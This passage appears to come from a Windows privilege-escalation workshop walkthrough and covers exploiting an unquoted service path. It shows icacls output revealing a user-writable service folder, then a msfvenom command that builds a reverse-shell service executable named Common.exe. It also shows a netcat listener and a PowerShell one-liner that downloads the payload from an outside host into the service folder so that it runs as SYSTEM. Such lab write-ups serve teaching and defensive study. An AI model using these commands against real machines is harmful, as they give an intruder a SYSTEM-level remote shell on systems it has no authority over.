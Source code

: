 We can't write to the Program Files folder either.

````PS C:\Users\user\Downloads> icacls.exe C:\"Program Files"\"Unquoted Path Service"
C:\Program Files\Unquoted Path Service BUILTIN\Users:(F)
                                       NT SERVICE\TrustedInstaller:(I)(F)
                                       NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                                       NT AUTHORITY\SYSTEM:(I)(F)
                                       NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                                       BUILTIN\Administrators:(I)(F)
                                       BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                                       BUILTIN\Users:(I)(RX)
                                       BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                                       CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
PS C:\Users\user\Downloads> 
````

We can however write to the Unquoted Path Service folder.
This means that if we create an executable named Common.exe, we can get a reverse shell as NT\System the next time the service is started.

So, we create the binary: 

````
msfvenom -p windows/shell_reverse_tcp LPORT=31337 LHOST=YOURIPHERE -f exe-service > Common.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe-service file: 15872 bytes
````

Then we start our handler to catch the reverse shell:

````
root@kali:~/LPEWorkshop# nc -lvnp 31337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::31337
Ncat: Listening on 0.0.0.0:31337
````


Then we transfer the binary:
````
PS C:\Program Files\Unquoted Path Service> (New-Object System.Net.WebClient).DownloadFile("http://10.22.6.122/Common.exe", "C:\Program Files\Unquoted Path Service\Common.exe")
PS C:\Program Files\Unquoted Path Service> ls


    Directory: C:\Program Files\Unquoted Path Service


Mode                LastWriteTime     Length Name                                                                      
----                -------------     ------ ----                                                                      
d----        12/17/2019  12:31 PM            Common Files                                                              
-a---        12/19/2019   9:32 AM      15872 Common.exe                                                                


PS C:\Program Files\Unquoted Path Service>
````

